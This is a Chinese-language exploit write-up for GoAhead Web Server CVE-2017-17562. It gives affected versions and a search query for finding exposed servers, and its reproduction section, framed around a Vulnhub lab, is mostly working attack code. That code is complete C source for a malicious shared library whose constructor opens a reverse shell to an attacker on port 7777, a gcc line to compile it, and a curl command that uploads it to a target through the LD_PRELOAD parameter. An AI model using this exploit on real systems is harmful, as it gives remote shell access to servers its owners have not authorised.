

# Goahead LD_PRELOAD 远程命令执行漏洞 CVE-2017-17562

## 漏洞描述

GoAhead支持运行ASP、Javascript和标准的CGI程序，这个漏洞出自CGI程序

该漏洞是利用服务器初始化CGI时，使用了HTTP请求参数，使用特殊的参数名LD_PRELOAD劫持libc库，进而实现远程命令执行

## 漏洞影响

<a-checkbox checked>GoAhead Web Server < 3.6.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="GoAhead"</a-checkbox></br>

## 漏洞复现

使用Vulnhub下的靶场进行搭建


编译恶意 so 文件

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

发送 evil.so 恶意文件

```php
curl -X POST --data-binary @evil.so http://xxx.xxx.xxx.xxx:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0
```



